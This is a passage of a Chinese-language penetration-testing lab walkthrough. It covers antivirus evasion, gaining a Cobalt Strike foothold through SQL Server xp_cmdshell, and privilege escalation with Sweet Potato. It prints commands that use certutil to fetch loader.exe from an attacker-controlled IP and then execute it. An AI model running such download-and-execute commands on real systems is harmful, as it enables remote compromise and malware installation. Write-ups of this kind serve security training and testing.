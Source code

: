 做一下火绒的免杀 ， 尝试上线， 使用windows的certutil命令远程下载文件

```plain
EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.168.8.198/loader.exe C:\Windows\Temp\schost.exe'; 
EXEC master..xp_cmdshell 'C:\Windows\Temp\schost.exe';
```

漏洞利用：

[![](assets/1705301733-3ed88f036cf6b17e1cb28fb6422caa09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140700-cccf488c-b110-1.png)

成功上线cs

[![](assets/1705301733-9cc2e02234a97aa0a201f47fece4c2c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140711-d2f93682-b110-1.png)

如果目标机器出网，可以把木马放到自己的公网服务器上，如果目标机器不出网，只需把木马放到12server-web1上，供其下载

### **权限提升**

使用MS16-075Sweet Potato进行提权

[![](assets/1705301733-d598805cd576ac6e4379c72c97f76227.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140726-dbdace78-b110-1.png)

漏洞利用

[![](assets/1705301733-c5383b7fd47193689b57df18fda36188.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140736-e1e3090c-b110-1.png)
